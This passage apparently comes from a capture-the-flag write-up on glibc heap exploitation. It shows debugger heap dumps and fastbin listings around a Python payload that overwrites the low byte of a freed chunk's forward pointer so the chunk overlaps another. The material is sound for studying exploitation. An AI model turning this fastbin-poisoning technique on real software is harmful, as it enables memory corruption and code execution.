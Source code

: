```
0x5633ccfb2160: 0x0000000000000000      0x0000000000000000
0x5633ccfb2170: 0x0000000000000000      0x0000000000000000
0x5633ccfb2180: 0x0000000000000000      0x0000000000020e81    <--- Top chunk/wilderness
0x5633ccfb2190: 0x0000000000000000      0x0000000000000000    
```

Heap Bins:
```
───── Fastbins for arena 0x7fbba6526b20 ────────────────────────────────────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30]  ←  Chunk(addr=0x5633ccfb2070, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5633ccfb2040, size=0x30, flags=PREV_INUSE) 
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
────── Unsorted Bin for arena 'main_arena' ───────────────────────────────────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in unsorted bin.
```

Using the following payload as the content for chunk 1, the LSB of chunk 3's FD is overwritten to point to chunk 5 instead of chunk 2
```python=
payload1 = b""
payload1 += p64(0)*5
payload1 += p64(0x31)
payload1 += p64(0)*5
payload1 += p64(0x31)
payload1 += b"\xc0"
```
And the heap layout in memory:
```
0x563c6f84c000: 0x0000000000000000      0x0000000000000031    <--- chunk 1
0x563c6f84c010: 0x0000000000000000      0x0000000000000000
0x563c6f84c020: 0x0000000000000000      0x0000000000000000
0x563c6f84c030: 0x0000000000000000      0x0000000000000031    <--- chunk 2
0x563c6f84c040: 0x0000000000000000      0x0000000000000000
0x563c6f84c050: 0x0000000000000000      0x0000000000000000
0x563c6f84c060: 0x0000000000000000      0x0000000000000031    <--- chunk 3
0x563c6f84c070: 0x0000563c6f84c0c0      0x0000000000000000       |- FD (Notice now points to chunk 5)
0x563c6f84c080: 0x0000000000000000      0x0000000000000000
0x563c6f84c090: 0x0000000000000000      0x0000000000000031    <--- chunk 4
0x563c6f84c0a0: 0x0000000000000000      0x0000000000000000
0x563c6f84c0b0: 0x0000000000000000      0x0000000000000000
0x563c6f84c0c0: 0x0000000000000000      0x0000000000000091    <--- chunk 5
0x563c6f84c0d0: 0x0000000000000000      0x0000000000000000
0x563c6f84c0e0: 0x0000000000000000      0x0000000000000000
0x563c6f84c0f0: 0x0000000000000000      0x0000000000000000
0x563c6f84c100: 0x0000000000000000      0x0000000000000000
0x563c6f84c110: 0x0000000000000000      0x0000000000000000
0x563c6f84c120: 0x0000000000000000      0x0000000000000000
0x563c6f84c130: 0x0000000000000000      0x0000000000000000
0x563c6f84c140: 0x0000000000000000      0x0000000000000000
0x563c6f84c150: 0x0000000000000000      0x0000000000000031    <--- chunk 6
0x563c6f84c160: 0x0000000000000000      0x0000000000000000
0x563c6f84c170: 0x0000000000000000      0x0000000000000000
0x563c6f84c180: 0x0000000000000000      0x0000000000020e81    <--- top chunk/wilderness
```
```
───── Fastbins for arena 0x7f4c70214b20 ────────────────────────────────────────────────────────────────────────────────────────────────────────────
```